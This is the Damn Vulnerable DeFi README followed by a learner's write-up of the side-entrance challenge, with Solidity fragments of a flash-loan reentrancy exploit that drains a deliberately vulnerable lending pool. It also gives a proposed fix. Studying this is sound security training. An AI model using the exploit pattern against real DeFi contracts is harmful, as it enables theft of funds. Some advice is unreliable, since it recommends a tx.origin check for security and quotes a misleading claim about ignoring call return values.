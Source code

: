 ![](cover.png)

**A set of challenges to learn offensive security of smart contracts in Ethereum.**

Featuring flash loans, price oracles, governance, NFTs, lending pools, smart contract wallets, timelocks, and more!

## Play

Visit [damnvulnerabledefi.xyz](https://damnvulnerabledefi.xyz)

## Help

For Q&A and troubleshooting running Damn Vulnerable DeFi, go [here](https://github.com/tinchoabbate/damn-vulnerable-defi/discussions/categories/support-q-a-troubleshooting).

## Disclaimer

All Solidity code, practices and patterns in this repository are DAMN VULNERABLE and for educational purposes only.

DO NOT USE IN PRODUCTION.

## Comparison

command to run test -> npx hardhat test side-entrance.challenge.js About to use github linker and "@audit" tag to document stuff in .md file as mentioned here

---- before executing the code ------

I was unable to write report, because I dont have any clue how to write a good report.

** DO NOT READ FURTHER BELOW IF YOU HAVE NOT ALREADY TRIED SOLVING ** - highly recommended.

## Solution :

https://github.com/JayeshShukla/damn-vulnerable-defi/blob/207d65b756fc8a011089b8a1e4d85bbfae58e84c/contracts/truster/FaultyContract.sol

## Concepts Learned :

[here](https://medium.com/@JohnnyTime/damn-vulnerable-defi-v3-walkthrough-side-entrance-challenge-4-solution-b5ccbd64e1e7)

when comparing my code with the above url these are all the findings :

1. https://github.com/JayeshShukla/damn-vulnerable-defi/blob/207d65b756fc8a011089b8a1e4d85bbfae58e84c/contracts/side-entrance/FaultyContract.sol#L1-L7

```solidity
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;

import "./SideEntranceLenderPool.sol";

contract FaultyContract is IFlashLoanEtherReceiver {
```

Instead of importing line "48", I could have created interface of SideEntranceLenderPool and used it.

2. https://github.com/JayeshShukla/damn-vulnerable-defi/blob/207d65b756fc8a011089b8a1e4d85bbfae58e84c/contracts/side-entrance/FaultyContract.sol#L16-L22

```solidity

    function firstTimer(uint256 _amount) external {
        pool.flashLoan(_amount);
        // withdraw will run after below "execute()" and "SideEntranceLenderPool's flashLoan()"
        pool.withdraw();
    }

```

"\_amount" in line 59 could be removed, because could have used "address(pool).balance":
learnt that one can use balance of any address in any contract.

3. https://github.com/JayeshShukla/damn-vulnerable-defi/blob/207d65b756fc8a011089b8a1e4d85bbfae58e84c/contracts/side-entrance/FaultyContract.sol#L23-L27

```solidity
  function execute() external payable {
        pool.deposit{value: address(this).balance}();
        // need to withdraw after repay check successfull in SideEntranceLenderPool's flashLoan
        // pool.withdraw(); -> cannot be here due to the above reason
    }
```

line 74: could have used "msg.value" instead address(this).balance : need more insight on this. That how exactly will that differ in the execution.

4. Also my execute function is not safe, so below code to be used to make is secure :

require(tx.origin == player); -> learnt new concept.

5. https://github.com/JayeshShukla/damn-vulnerable-defi/blob/207d65b756fc8a011089b8a1e4d85bbfae58e84c/contracts/side-entrance/FaultyContract.sol#L32-L46

```solidity
   receive() external payable {
        /**
         * @dev
         *      1) when written without "(bool success,) =", was giving me error as below :
         *      ** Return value of low-level calls not used. **
         *      chatgpt ->
         * In Solidity, when you use a low-level call like owner.call{value: address(this).balance}(""), the return value of the call is often ignored intentionally. This is because handling the return value of a low-level call can be complex and error-prone, especially if the target contract's function being called has a return value.
         *
         * However, Solidity compilers often issue a warning when the return value of such calls is ignored to alert developers that they might be missing important information. The warning message "Return value of low-level calls not used" is an indication that although the call was made, its result was not explicitly checked or utilized in the contract code.
         *
         * To handle the return value properly, you might consider using the try/catch mechanism introduced in Solidity 0.6.8 to catch any errors that might occur during the execution of the call. Here's an example of how you could use try/catch to handle errors and inspect the return value:
         */
        (bool success,) = owner.call{value: address(this).balance}("");
        require(success, "Transfer failed");
    }
```

the above code could be moved to, "firstTimer()" below pool.withdraw();

POSITIVE TAKE AWAY : The logic I applied is exactly same as given in the URL above. Need to make my contract safe too.

## Hack & How to stop it

https://github.com/JayeshShukla/damn-vulnerable-defi/blob/207d65b756fc8a011089b8a1e4d85bbfae58e84c/contracts/side-entrance/SideEntranceLenderPool.sol#L44-L52

```solidity
    function flashLoan(uint256 amount) external {
        uint256 balanceBefore = address(this).balance;

        IFlashLoanEtherReceiver(msg.sender).execute{value: amount}();

        if (address(this).balance < balanceBefore) {
            revert RepayFailed();
        }
    }
```

in SideEntranceLenderPool addtional code at line 123 could be added :

```solidity

    delete balances[msg.sender];

```

this would make sure that balances mapping will be cleared for an address even if it tends to call deposit function inside the the flashloan function.
